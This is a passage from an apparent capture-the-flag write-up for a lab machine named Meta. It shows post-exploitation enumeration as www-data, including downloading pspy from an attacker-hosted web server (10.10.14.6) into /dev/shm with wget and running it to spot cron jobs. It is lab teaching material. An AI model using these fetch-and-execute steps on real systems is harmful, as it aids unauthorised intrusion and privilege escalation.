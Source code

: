 #### Home Directories

There's one home directory on Meta:



    www-data@meta:/home$ ls
    thomas



This directory has `user.txt`, but www-data can't read it:



    www-data@meta:/home/thomas$ ls -la
    total 32
    drwxr-xr-x 4 thomas thomas 4096 Jan 17 07:53 .
    drwxr-xr-x 3 root   root   4096 Aug 29  2021 ..
    lrwxrwxrwx 1 root   root      9 Aug 29  2021 .bash_history -> /dev/null
    -rw-r--r-- 1 thomas thomas  220 Aug 29  2021 .bash_logout
    -rw-r--r-- 1 thomas thomas 3526 Aug 29  2021 .bashrc
    drwxr-xr-x 3 thomas thomas 4096 Aug 30  2021 .config
    -rw-r--r-- 1 thomas thomas  807 Aug 29  2021 .profile
    drwx------ 2 thomas thomas 4096 Jan  4 10:22 .ssh
    -rw-r----- 1 root   thomas   33 Jun  3 14:41 user.txt



#### Processes

After not finding much else, I'll upload
[pspy](https://github.com/DominicBreuker/pspy) to look for anything that
might be running on a cron, especially as thomas. I'll host the file on
my computer with a Python webserver (`python3 -m http.server 80`), and
then fetch it to `/dev/shm` using `wget`:



    www-data@meta:/dev/shm$ wget 10.10.14.6/pspy64 
    --2022-06-03 16:32:38--  http://10.10.14.6/pspy64
    Connecting to 10.10.14.6:80... connected.
    HTTP request sent, awaiting response... 200 OK 
    Length: 3078592 (2.9M) [application/octet-stream]
    Saving to: 'pspy64'
                                                                
    pspy64              100%[===================>]   2.94M  2.31MB/s    in 1.3s    

    2022-06-03 16:32:40 (2.31 MB/s) - 'pspy64' saved [3078592/3078592]

    www-data@meta:/dev/shm$ chmod +x ./pspy64



When I run it, I'll see that every minute there's some interesting
activity as thomas:



    www-data@meta:/dev/shm$ ./pspy64               
    pspy - version: v1.2.0 - Commit SHA: 9c63e5d6c58f7bcdc235db663f5e3fe1c33b8855
